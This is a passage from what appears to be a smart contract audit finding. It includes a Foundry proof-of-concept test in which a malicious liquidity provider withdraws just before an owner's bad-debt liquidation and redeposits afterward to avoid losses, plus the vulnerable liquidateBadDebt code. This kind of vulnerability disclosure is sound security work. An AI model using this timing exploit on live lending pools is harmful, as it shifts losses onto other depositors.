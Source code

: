 ```solidity
        assertTrue(riskEngine.isPositionHealthy(position));

        // Modify asset2 price from 1eth to 0.01eth to make position insolvent.
        FixedPriceOracle pointOneEthOracle = new FixedPriceOracle(0.01e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset2), address(pointOneEthOracle));
        assertFalse(riskEngine.isPositionHealthy(position));

        console.log("Assets of maliciousLP before : ", pool.convertToAssets(pool.balanceOf(maliciousLP, fixedRatePool), pool.getTotalAssets(fixedRatePool), pool.balanceOf(maliciousLP, fixedRatePool) + pool.balanceOf(lender, fixedRatePool)));
        // Malicious LP withdraws his assets just before the liquidation so to not see his funds slashed.
        vm.startPrank(maliciousLP);
        pool.withdraw(fixedRatePool, 100e18, maliciousLP, maliciousLP);
        vm.stopPrank();
        
        // Owner liquidates the insolvent position.                                                                                      
        vm.startPrank(protocolOwner);
        positionManager.liquidateBadDebt(position);
        vm.stopPrank();

        // Malicious LP deposits his assets back immediately after the liquidation and he has not lost funds.
        vm.startPrank(maliciousLP);
        asset1.approve(address(pool), 100e18);
        pool.deposit(fixedRatePool, 100e18, maliciousLP);
        vm.stopPrank();
        console.log("Assets of maliciousLP after: ", pool.convertToAssets(pool.balanceOf(maliciousLP, fixedRatePool), pool.getTotalAssets(fixedRatePool), pool.balanceOf(maliciousLP, fixedRatePool) + pool.balanceOf(lender, fixedRatePool)));
    }
```
The logs in of the balance of maliciousLP will show that he gained from this action :
```md
Logs:
  Assets of maliciousLP before :  100000000000000000000
  Assets of maliciousLP after:    99999999999999999999
```

At the first case, he saw his assets getting slashed by 500000000000000000(which was right) and at the second case, he saw his assets getting slashed by just 1 wei.

## Code Snippet
Here is the ```rebalanceBadDebt()``` function of ```PositionManager``` contract :
```solidity
   function liquidateBadDebt(address position) external onlyOwner {
        riskEngine.validateBadDebt(position);

        // transfer any remaining position assets to the PositionManager owner
        address[] memory positionAssets = Position(payable(position)).getPositionAssets();
        uint256 positionAssetsLength = positionAssets.length;
        for (uint256 i; i < positionAssetsLength; ++i) {
            uint256 amt = IERC20(positionAssets[i]).balanceOf(position);
            try Position(payable(position)).transfer(owner(), positionAssets[i], amt) { } catch { }
        }

        // clear all debt associated with the given position
        uint256[] memory debtPools = Position(payable(position)).getDebtPools();
        uint256 debtPoolsLength = debtPools.length;
        for (uint256 i; i < debtPoolsLength; ++i) {
            pool.rebalanceBadDebt(debtPools[i], position);
```